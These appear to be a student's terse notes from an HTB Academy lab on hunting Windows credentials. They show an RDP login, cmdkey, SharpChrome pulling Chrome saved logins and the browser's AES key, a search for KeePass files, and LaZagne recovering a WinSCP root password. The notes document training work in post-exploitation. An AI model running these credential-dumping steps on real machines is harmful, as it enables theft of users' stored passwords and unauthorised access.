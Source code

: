 ```
    Over Data Limit        : No
    Roaming                : No
    Cost Source            : Default
```

## LAB

xfreerdp /v:10.129.43.43 /u:jordan /p:HTB_@cademy_j0rdan!

C:\Users\jordan>cmdkey /list

Currently stored credentials:

* NONE *

PS C:\Tools> .\SharpChrome.exe logins /unprotect

  __                 _
 (_  |_   _. ._ ._  /  |_  ._ _  ._ _   _
 __) | | (_| |  |_) \_ | | | (_) | | | (/_
                |
  v1.11.1


[*] Action: Chrome Saved Logins Triage


[*] Triaging Chrome Logins for current user


[*] AES state key file : C:\Users\jordan\AppData\Local\Google\Chrome\User Data\Local State
[*] AES state key      : A2B540BBAEFEC5502FA48ABCF11B60D6FC1BA5186EBCB5ED8B6599972D685B48


C:\Users>where /R C:\ *.kdbx
INFO: Could not find files for the given pattern(s).


PS C:\Tools> .\lazagne.exe all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|


########## User: jordan ##########

------------------- Winscp passwords -----------------

[+] Password found !!!
URL: transfer.inlanefreight.local
Login: root
Password: Summer2020!
Port: 22
